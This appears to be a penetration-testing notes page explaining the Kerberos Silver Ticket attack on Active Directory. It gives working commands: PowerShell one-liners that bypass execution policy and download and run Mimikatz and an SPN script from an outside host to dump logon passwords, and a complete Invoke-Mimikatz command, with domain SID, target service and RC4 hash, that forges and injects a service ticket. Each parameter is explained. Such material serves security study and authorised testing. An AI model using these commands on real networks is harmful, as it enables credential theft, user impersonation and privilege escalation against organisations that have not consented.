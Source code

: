 # Silver Ticket

## <mark style="color:red;">Intro</mark>

#### <mark style="color:green;">This attack includes forging a cracked TGS Kerberos ticket in order to impersonate another user and escalate privileges from the perspective of a service the TGS was cracked for.</mark>



On the last step of the process when the client sends a TGS to the service that is where we can send a forged TGS and get access directly to the service and get a service ticket using this method.

![](<../../../.gitbook/assets/image (191).png>)

#### <mark style="color:green;">Silver ticket abuses the part of Kerberos authentication where a client sends a Valid TGS to get a service ticket. So if an attacker knows the hash of the service account he can forge a fake service ticket with it. Kerberos will trust it since it can be decrypted by the service as its signed by the NTLM hash of the service.</mark>

{% hint style="info" %}
downside of this attack is at unlike golden ticket which gives us access to everything.

&#x20;A silver ticket will only allow us access to a particular service or all the services that are running with the same service account.

Another disadvantage of this attack is if the service account is a machine account or a user account. If the password of the account changes this attack will fail. Since we wont have the correct hash of the user/machine account usually it changes within 30 days for machines.&#x20;

We would generally target these services when it comes to performing a silver ticket attack. CIFS (file system), HOST ( can schedule tasks ), RPCSS Host (runs wmi), WSman/http (ps remoting) all of these use the machine account as there service account.
{% endhint %}

## <mark style="color:red;">Dumping Password Hash</mark>

If an attacker can gain admin rights to the computer (to gain debug access) or be able to run code as local System, the attacker can dump the AD computer account password hash from the system using Mimikatz (the NTLM password hash is used to encrypt RC4 Kerberos tickets)

#### run this with admin privileges to load mimikatz into memory and dump user hashes:

```
powershell -ep bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1/mimikatz.ps1'); invoke-mimikatz -command 'sekurlsa::logonpasswords'"
```

![](<../../../.gitbook/assets/image (189).png>)

**Target** – This is the host, which can be copied from the SPN value.

```
powershell -ep bypass -c "iex(new-object system.net.webclient).downloadstring('http://192.168.56.1/getspn.ps1')"
```

![](<../../../.gitbook/assets/image (186) (1).png>)

## <mark style="color:red;">Forging Silver Ticket</mark>

#### the syntax for mimikatz command is:

```
 Invoke-Mimikatz -Command 'kerberos::golden /domain:megabank.local /sid:S-1-5-21-4081310294-3909750490-1069944866-1156 /target:sql.megabank.local:60111 /service:sql /rc4:77a5ee35032ad22d515577e7bd8e56c7 /user:paul /ptt'
```

**/domain :** domain name

**/sid:** domain SID value

**/target:** target service SPN

**/service:** service name

**/user:** username to create ticket for

**/rc4:** NTLM hash, will use

**/id , /groups :** these are to specify user id and group but this is optional

/endin : specify ticket lifetime in minutes (default 10 years)

**/ptt :** stands for pass the ticket it will load the ticket in memory. If we want to extract ticket on disk we can use **/ticket** option instead.

#### Now if we run the command above we get silver ticket that is created and stored in our current session

#### Now if we try to access the file system on sql.megabank.local machine. We can do it because we already have the tickets to authenticate us.

## <mark style="color:red;">Host Exploitation with Silver Ticket</mark>

By issuing a klist command you can see that we now have the ticket for sql service.

![](<../../../.gitbook/assets/image (190).png>)

more attack scenarios with silver tickets

{% embed url="https://adsecurity.org/?p=2011" %}
